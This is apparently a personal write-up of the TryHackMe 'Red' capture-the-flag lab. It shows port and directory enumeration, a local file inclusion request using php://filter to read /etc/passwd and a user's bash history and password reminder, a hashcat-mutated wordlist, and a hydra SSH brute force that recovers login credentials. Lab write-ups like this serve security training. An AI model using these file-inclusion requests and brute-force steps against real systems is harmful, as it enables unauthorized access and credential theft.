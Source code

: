 <code>
  
LINK https://tryhackme.com/r/room/redisl33t

### Service Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ nmap -sV  -p- -Pn  red.thm     
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-29 02:31 CDT
Nmap scan report for red.thm (10.10.108.254)
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

### WWW Enumeration

┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://red.thm -x php,txt,html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://red.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s

2024/05/29 02:52:10 Starting gobuster in directory enumeration mode

/index.php            (Status: 302) [Size: 0] [--> /index.php?page=home.html]
/contact.html         (Status: 200) [Size: 7507]                             
/about.html           (Status: 200) [Size: 9309]                             
/home.html            (Status: 200) [Size: 15757]                            
/services.html        (Status: 200) [Size: 9131]                             
/signup.html          (Status: 200) [Size: 7283]                             
/assets               (Status: 301) [Size: 303] [--> http://red.thm/assets/] 
/portfolio.html       (Status: 200) [Size: 14352]                            
/signin.html          (Status: 200) [Size: 6655]                             
/readme.txt           (Status: 200) [Size: 675]                              
/server-status        (Status: 403) [Size: 272]  

### get local file
GET http://red.thm/index.php?page=php://filter/resource=/etc/passwd HTTP/1.1

root:x:0:0:root:/root:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

### reply from bash history 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.bash_history
echo "Red rules" cd hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt cat passlist.txt rm passlist.txt sudo apt-get remove hashcat -y 
http://red.thm/index.php?page=php://filter/resource=/home/blue/.reminder
sup3r_p@s$w0rd! 


┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hashcat --stdout reminder -r ../../../..//usr/share/hashcat/rules/best64.rule > passlist.txt 
                                                                                                                                                                                                                                            
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ cat passlist.txt         
sup3r_p@s$w0rd!
!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!
Sup3r_p@s$w0rd!
....

### Use hydra to brute force
┌──(duke㉿kali)-[~/Documents/THM_Red]
└─$ hydra -l blue -P passlist.txt ssh://10.10.141.213
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-30 06:22:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.141.213:22/
[22][ssh] host: 10.10.141.213   login: blue   password: sup3r_p@s$w0rd!9
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-30 06:22:29

## Credentials login: blue   password: sup3r_p@s$w0rd!9


</code>
